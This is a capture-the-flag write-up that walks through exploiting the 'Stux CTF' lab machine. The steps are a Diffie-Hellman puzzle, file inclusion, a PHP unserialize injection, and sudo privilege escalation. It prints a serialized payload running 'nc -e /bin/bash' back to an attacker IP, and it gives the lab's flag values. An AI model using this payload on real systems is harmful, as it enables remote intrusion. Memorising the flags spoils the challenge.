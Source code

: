 # Stux CTF writeup

## Enumeration

Using `sudo nmap -Pn -p- -v -A 10.10.189.199` to find open ports, and which services reside at these ports.

![nmap scan](images/nmap.png)

The scan found an endpoint (`/StuxCTF/`) in the robots.txt folder. This page, however, gives us a 404 exception.


Heading back to the index of port 80 I inspect the element and find something about a secret directory.

![secret directory](images/inspect.png)

This problem immediately made me think of a discrete logarithm problem. More spesifically Diffie Hellman.
p is a public prime, and g a public generator, and a and b are Alice's and Bob's respective private keys. g^c might be a third person's g^c mod p public key.

In order to create a shared secret key using Diffie Hellman, you simply combine all peoples public keys together with your own private key like this:

shared_secret = (a_public * b_public)^(c_private) mod p = (g^a_private mod p * g^b_private mod p)^(c_private) mod p = g^(a_private*b_private*c_private) mod p

![dh](images/dh.png)
![dh short](images/128dh.png)

Aaaand, that's our first flag!

3. What is the hidden directory?
    * 47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055

By inspecting the source code of this website, we're graciously given a hint to head over to `/?file=`

![hint](images/hint.png)

Typing a random argument in the `/?file=` endpoint takes us to a page that says that the file doesn't exist.

![No Exist](images/NoExist.png)

By checking for a [lfi vulnerability](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/) (reference the directory's `index.php` file), we seem to accidentaly have discovered a new code. This code is, at least, different from the modular arithmetic code we calculated above. Using our local web server we also found out that the website has a [rfi vulernability](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/)

![lfi](images/lfi.png)

This seems an awful lot like hexadecimals, so i use an online converter to get the decoded string.

The decoded string seems to be obscured by something yet again. The double `==` at the start of this string makes it look like reversed base64.

![base64](images/base64.png)

We end up by getting the index.php file when reverting and decoding the base64 string.

![php](images/php.png)

This code may seem innocent at first (except for the inclusion of a lfi exploit), but the `unserialize` method in the last line is vulnerable for remote code execution if we're able to upload our own code to the function. [This article explains the exploit really well](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/), but the crux of this exploit is that if we `serialize` some php code on our local machine and make the website's `unserialize` method unserialize our php code, it execute it if certain conditions are met. 

The code you want to serialize should look like this:
```php
    <?php
        class file{
            public $file = 'file.php'; // Name of the file we are making on the remote server
            public $data = '<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>'; // Spawning a bash shell and sending it to our gateway
        }
        echo (serialize(new file)); //Serialize the "file" function
    ?>
```

By serializing the php code `php inject.php > inject.php` you get a text file with the serialized data `O:4:"file":2:{s:4:"file";s:10:"remote.php";s:4:"data";s:55:"<?php shell_exec("nc -e /bin/bash 10.9.81.67 7575"); ?>";}`

Upload this file to the website through the rfi vulnerability we found earlier

![inject link](images/injectLink.png)

The file should then be saved as `file.php` in the directory.

Start up netcat `nc -lvnp 7575` and head over to the newly uploaded `file.php` to execute the file.

![file](images/file.png)

Connected as www-data!

![www-data](images/ncConnect.png)

We see a user named `grecia` when navigating to the home directory. 
Grecia's user.txt is located here!

![user.txt](images/user.png)

1. user.txt
    * 0b6044b7807dd100b9e30f1bd09db53f

## Privilege Escalation 

By running `sudo -l` we can see which (if any) commands we are able to run with escalated privileges. To my surprise all commands can be run as root without providing a password.

![Sudo](images/sudo.png)

The www-data user is naturally not allowed to access the root folder, but we may still see the content of root.txt by running `sudo cat /root/root.txt`.

Rooted! :^)

![rootes](images/root.png)

2. root.txt
    * 0028454003b42601548df551b738976c


